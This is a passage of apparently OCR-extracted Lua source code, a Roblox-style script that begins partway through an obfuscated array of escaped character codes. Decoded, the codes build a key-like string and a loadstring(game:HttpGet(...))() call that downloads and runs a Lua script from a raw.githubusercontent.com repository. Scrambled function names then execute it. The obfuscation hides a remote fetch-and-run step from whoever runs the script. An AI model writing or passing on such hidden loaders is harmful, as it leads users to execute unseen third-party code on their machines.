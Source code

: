 ','\120','\56','\117','\118','\71','\112','\79','\97','\50','\66','\54','\67','\79','\52','\102','\98','\87','\100','\95','\67','\65','\97','\114','\107','\99','\56','\57','\34','\10','\32','\10','\108','\111','\97','\100','\115','\116','\114','\105','\110','\103','\40','\103','\97','\109','\101','\58','\72','\116','\116','\112','\71','\101','\116','\40','\34','\104','\116','\116','\112','\115','\58','\47','\47','\114','\97','\119','\46','\103','\105','\116','\104','\117','\98','\117','\115','\101','\114','\99','\111','\110','\116','\101','\110','\116','\46','\99','\111','\109','\47','\72','\97','\114','\100','\71','\97','\109','\101','\83','\115','\47','\80','\83','\88','\47','\109','\97','\105','\110','\47','\83','\99','\114','\105','\112','\116','\46','\108','\117','\97','\34','\44','\32','\116','\114','\117','\101','\41','\41','\40','\41','\10','\9','\101','\110','\100','\10','\125','\41','\10',}IllIIllIIllIII(IllIIIllIIIIllI(IlIlIlIlIlIlIlIlII,IIIIIIIIllllllllIIIIIIII))()

